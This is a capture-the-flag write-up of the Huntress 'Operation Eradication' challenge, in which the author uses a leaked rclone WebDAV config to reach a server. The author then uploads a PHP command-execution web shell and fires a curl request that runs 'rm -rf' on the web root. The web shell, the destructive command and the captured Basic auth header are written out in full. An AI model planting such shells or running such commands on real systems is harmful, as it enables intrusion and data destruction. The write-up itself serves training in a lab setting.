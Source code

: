```yaml
---
title: "Operation Eradication"
description: "Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment!"
author: "huntress"
date: "2023-10-14"
published: true
tags: ["capture the flag", "huntress", "malware", "web"]
---
```


# Operation Eradication

<aside>
Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment!
<strong>They stole our data!</strong>
Luckily, we found what looks like a configuration file, that seems to have credentials to the actor's storage server... but it doesn't seem to work. Can you get onto their server and
delete all the data they stole!?
</aside>


The challenge gives us a containerized HTTP server instance, alongside a file with no extension named simply `operation_eradication`.
Passing it as an argument to the file command reveals it's just plain ASCII text. Viewing its contents, we are presented with the following:

```toml
type = webdav
url = http://localhost/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

After a bit of Googling, we can ascertain that the remote server is likely running a WebDAV ("Web-Distributed Authoring and Versioning") protocol service, which is effectively a
(apparently now-obselete) type of network-accessible file storage service. As indicated by the config's `url` param, we are able to access the service's front-end by adjusting the `localhost`
SLD to our assigned instance: `http://chal.ctf.games:30236/webdav`. The page is simply a blank white screen, so I assume we need to authenticate before we are able to see
the _actual_ content (though nothing indicates this explicitly).

After briefly reviewing WebDAV documentation alongside the tech stack used on the WebDAV endpoint, we can see the server accepts authentication via a `Basic` Authorization header, which we can craft by running
`echo -n <username>:<password> | base64 --wrap=0` in a bash terminal, replacing the `<username>` and `<password>` strings with the user's authentication info.

![1](/img/operation_eradication_img/Untitled.png)
>The root endpoint

![Untitled](/img/operation_eradication_img/Untitled%201.png)
>The `/webdav` endpoint

To me, those `user` and `pass` strings look like they've been hashed or encrypted, but we can try to make a GET request using the strings as the username and password anyway:
```bash
# base64-encode `username:password`
USER_AUTH=$(echo -n "VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r:HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5" | base64 --wrap=0)

# make a request
curl http://chal.ctf.games:30236/webdav
   -H "Authorization: Basic $USER_AUTH"
```

As expected, this isn't correct.

![Untitled](/img/operation_eradication_img/Untitled%202.png)

We can try to do a bit of hashcracking & decryption, but we have no idea how these strings have been hashed - the `user` and `pass` strings are 72 characters long (i.e they don't look like a common hash type), and online hash analysis tools, Google, and ChatGPT similarly have no clue.
We can instead Google the config file's layout, and find that it (probably) belongs to a WebDAV client CLI tool named `Rclone`.

Downloading Rclone, I was unable to simply dump the provided configuration file into the corresponding Rclone folder, but we can instead run through the setup to create our own (empty) config file,
and then replace it's content with that of the provided file:

```powershell
.\\rclone config

# ...
# this runs us through a config setup wizard...
# ...

Current remotes:

Name                 Type
====                 ====
huntress             webdav

# ...

s) Set configuration password
q) Quit config
e/n/d/r/c/s/q> q

# then replace it's contents with our desired config
# (don't forget that the service isn't running locally):

echo "[huntress]
type = webdav
url = http://chal.ctf.games:30236/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5" > C:\\Users\\pls\\AppData\\Roaming\\rclone\\rclone.conf

cat C:\\Users\\pls\\AppData\\Roaming\\rclone\\rclone.conf
[huntress]
type = webdav
url = http://chal.ctf.games:30236/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

Having never used Rclone or interacted with a WebDAV service, it took a moment to get used to the commands and how we are meant to interact with a WebDAV service.
Essentially, we don't have to login and use an interactive shell like we might over SSH or FTP; rather, we simply indicate what config to use and run the command.

Lets try listing the WebDAV’s contents to see if our configuration works:

```powershell
.\\rclone tree huntress:
/
├── Accounting
│   ├── 2021
│   │   └── AnnualReport.pdf
│   ├── 2022
│   │   ├── Quarter1_MonthlyRevenue.xlsx
# ...
│   └── Training
│       ├── 2022
│       │   ├── AdvancedSalesSkillsCourse.pdf
│       │   └── NewSalesRepTraining.pdf
│       └── SalesTrainingManual.pdf
```

Looks like its functional. Unfortunately, we - or, rather, our WebDAV credentials - do not have the necessary permissions to run `.\\rclone delete huntress:/`.

We do, however, have write permissions, and so we are able to upload and save files onto the machine.

As is my immediate thought with any PHP service during a CTF, we are probably meant to gain code execution as `www-data` (who would usually have ownership of `/var/www/html/`, which likely contains the `/webdav` endpoint),
so my immediate thought is that we can try to execute code through a PHP script.

As previously stipulated, Rclone/WebDAV is non-interactive, so we’ll have to try to run something from the HTTP service. The service isn't locally available either, so the remote machine probably can't issue a direct call to our
machine, and we would need to run a tunnel via `ngrok` or something, and I honestly don’t want to overcomplicate the task when we can do what we want via a PHP `cmd` script and pass the server shell commands in GET request parameters:

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```
> A simple PHP script that will run commands on the remote machine via the `system($cmd)` builtin, where `$cmd` is defined through a URL GET request parameter.

After copying the cmd script over, we can see that it has been successfully written to the root directory of the WebDAV endpoint:

```powershell
.\\rclone copy C:\\...\\exec.php huntress:/
.\\rclone ls huntress:/
       50 exec.php
  1745724 ProductDevelopment/2022/ProductRoadmap.pdf
  3570194 ProductDevelopment/2023/ProductRoadmap.pdf
  3510400 HumanResources/EmployeeHandbook.pdf
  7680849 ProductDevelopment/Specifications/NewProductSpecs.pdf
  3891213 ProductDevelopment/Specifications/UpdatedProductSpecs.pdf
  ...
```

We are now missing one final piece before we can wipe the endpoint - we still don’t have the authentication info, and the approach I am taking requires that we make a request _without_ Rclone.

Because the service uses unencrypted HTTP, we can intercept traffic routed between Rclone and WebDAV using Wireshark, resulting in the following:

```powershell
PROPFIND /webdav/ HTTP/1.1
Host: chal.ctf.games:30236
User-Agent: rclone/v1.64.2
Authorization: Basic VkFIeWNZaEsyYXc5VE5GR1NwTWYxYl8yWk5uWnVBTmNJOC0yNmF3R0xZa3dSekp3UF9idU5zWjFlUXdSa21qUW1WenhNZTVyOlN1cGVyRXh0cmVtZWx5U2VjdXJlUGFzc3dvcmRMaWtlQWx3YXlz
Depth: 1
Referer: http://chal.ctf.games:30236/webdav/
Accept-Encoding: gzip
```
> Intercepted header information from a `.\\rclone ls huntress:/` command.

We can now use `curl` to execute `bash -c "rm -rf <[the webdav endpoint]>...";`  as a `GET` param passed to the `exec.php` file we just uploaded - I’ve included an additional `echo 'done'` command after running `rm -rf` just to
ensure I know whether or not we executed any commands, as a sanity check if something doesn't end up working.

Realistically, though, we are just querying the script we uploaded, and using the URL param `?cmd=..` to open a bash shell and literally just execute bash commands. There is the authentication stuff here, but that was basically
pre-generated by Wireshark anyway.

The final request (along with it's response) is as follows:

```bash
curl -i -s -k -X $'GET' \\
    -H $'Host: localhost' -H $'User-Agent: rclone/v1.64.2' \\
    -H $'Authorization: Basic VkFIeWNZaEsyYXc5VE5GR1NwTWYxYl8yWk5uWnVBTmNJOC0yNmF3R0xZa3dSekp3UF9idU5zWjFlUXdSa21qUW1WenhNZTVyOlN1cGVyRXh0cmVtZWx5U2VjdXJlUGFzc3dvcmRMaWtlQWx3YXlz' \\
		-H $'Depth: 1' -H $'Referer: http://chal.ctf.games:30236/webdav/' -H $'Accept-Encoding: gzip' -H $'Content-Type: application/x-httpd-php' \\
    $'http://chal.ctf.games:30236/webdav/exec.php?cmd=bash+-c+\\"rm+-rf+/var/www/html/webdav/*;+echo+\\'done.\\'\\"'

HTTP/1.1 200 OK
Date: Fri, 20 Oct 2023 18:24:02 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Content-Encoding: gzip
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
```

We can go back and refresh the webapp's root directory, where we are presented with our flag:

![Untitled](/img/operation_eradication_img/Untitled%203.png)

